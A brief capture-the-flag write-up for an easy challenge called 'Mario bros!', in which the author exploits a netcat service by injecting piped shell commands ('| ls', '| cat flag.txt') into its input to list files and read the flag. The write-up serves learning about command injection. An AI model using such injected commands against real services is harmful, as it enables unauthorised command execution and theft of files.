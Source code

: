 # Mario bros!
100 points
Solves: 121  Easy
Read the flag!

nc 159.223.209.120 7777

## Solving

The hint was: `marios favorite shortcut` and I was instantly thinking about `|` pipes.
So if your input is:

```shell
nc 159.223.209.120 7777
Are you root?
| ls
entrypoint.sh
flag.txt
pwn.sh
ucspi-tcp-0.88
ucspi-tcp-0.88.errno.patch
ucspi-tcp-0.88.tar.gz
lol ur not root!
```

you'll get the local filesystem. So if we use `| cat flag.txt` instead, we get our flag.

```shell
nc 159.223.209.120 7777
Are you root?
| cat flag.txt
EZ-CTF{UNSECUR3_B4SH}
lol ur not root!
```

Yippi! Flag:

> EZ-CTF{UNSECUR3_B4SH}
